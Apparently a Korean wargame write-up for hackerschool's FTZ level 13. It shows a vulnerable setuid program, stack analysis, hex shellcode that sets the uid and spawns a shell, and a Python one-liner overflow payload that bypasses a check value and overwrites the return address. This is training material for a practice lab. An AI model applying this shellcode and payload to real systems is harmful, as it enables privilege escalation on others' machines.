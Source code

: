 ```yaml
---
title: BOF/ ftz-level13
tags: ftz
---
```


FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  
gdb - 디버깅 도구  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 13
**ID : level13**  
**PASSWD : have no clue**         

<br />
{% highlight C linenos %}  
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
buf에 argv[1]을 strcpy함수로 복사하는 소스로 i가 0x1234567이 아니면 프로그램이 종료된다.    
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 입력 데이터가 1024Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
level14의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level13에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level13/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 sep에 1048Byte의 공간을 할당하는것을 알 수 있다.  
main+54 line을 보면 strcpy함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-1048.  
main+69 line을 보면 ebp-12 를 0x1234567과 비교연산하고 있음을 알 수 있다.  
소스를 보면 i가 0x1234567과 비교연산 하고 있으므로 ebp-12는 i의 주소이다.  
<br />
ebp는 stack base pointer로 stack의 최하단을 가리키는 포인터로 스택이 소멸되기 전까지 값이 변하지 않는다.  
스택은 높은 주소에서 낮은 주소로 자라는 특성을 가지고 있으므로 ebp-1048이 ebp-12보다 상단에 위치함을 알 수 있다.  

buf와 i사이에 12Byte의 dummy가 있고, 스택에 할당된 총 공간이 1048Byte이므로 메모리 구조는 아래와 같다.  

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(1024Byte)|
dummy(12Byte)|
i(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level13/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 시도.  
또한 중간에 i의 값을 적절히 변조하여 프로그램 종료 조건을 우회  

<br />
![그림3](/assets/ftz/level13/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level13/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level13/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  
하지만 i의 값이 0x1234567이 아니면 프로그램이 종료되는 조건이 있으므로 우회하기 위해 i의 위치에 1234567을 값으로 대입하고,  
ret에 접근하여 쉘코드의 주소를 대입한다.  

<br />

#### 페이로드
./attackme \`python -c "print 'A'\*1036 + '\x67\x45\x23\x01' + 'A'*12 + '\x15\xfc\xff\xbf'"`
